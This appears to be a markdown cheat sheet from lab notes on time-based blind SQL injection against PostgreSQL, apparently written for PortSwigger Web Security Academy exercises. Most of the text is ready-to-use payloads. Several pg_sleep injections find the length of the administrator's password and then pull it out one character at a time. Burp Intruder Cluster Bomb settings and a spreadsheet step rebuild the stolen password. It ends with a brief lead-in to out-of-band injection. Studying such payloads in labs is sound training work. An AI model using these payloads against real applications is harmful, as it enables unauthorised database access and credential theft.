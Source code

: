
* **Identify the length of the password for a user called administrator:**

```
'%3b select case when (username='administrator' and length(password)>1) then pg_sleep(10) else pg_sleep(0) end from users--
```
```
'%3b select case when ((select 'TEST' from users where username='administrator' and length(password)>10)='TEST') then pg_sleep(10) else null end--
```




* **Extract the password from a user called administrator.**  The columns here are username and password.  The table is users.:

```
'%3b select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(0) end from users--
```
```
'%3b select case when (substring((select password from users where username ='administrator'),1,1)='f') then pg_sleep(10) else null end--
```

<br>

For Burp Intruder use the following configurations:
   * Attack Type:  Cluster Bomb
   * Payload Positions: 2 position markers need to be set:
      * The first one should be on the character offset position in the password
      * The second marker should be on the actually character to test
         * where username='administrator'),$$,1)='$$') 
   * Payloads:
      * First marker - Numbers From 1 to 20
      * Second marker - include alphanumeric characters (Burp Pro has the payload list that can be added.)
   * View Results: Filter by the Response received/completed columns. The higher values should have the correct character in their positions. After sorting, it should be easy to manually put together the password.
   
   * Note:  If having trouble sorting by 2 columns in Burp Suite.  You can copy/paste only the necessary columns in an Excel sheet, sort them appropriately by the "Payload 1" request so they are in order (1-20) positions.  Then use the =CONCAT() command on the "Payload 2" column so the password is combined automatically. 

<br><br><br>

#### SQLi Out of Band Interaction

* **Example:  Out of Band Interaction**

* https://portswigger.net/web-security/sql-injection/cheat-sheet#dns-lookup

* Here we are using a method called extractvalue(), that takes in a XML type instance and XPath expression(this argument doesn't matter much it just needs to be there to execute correctly).
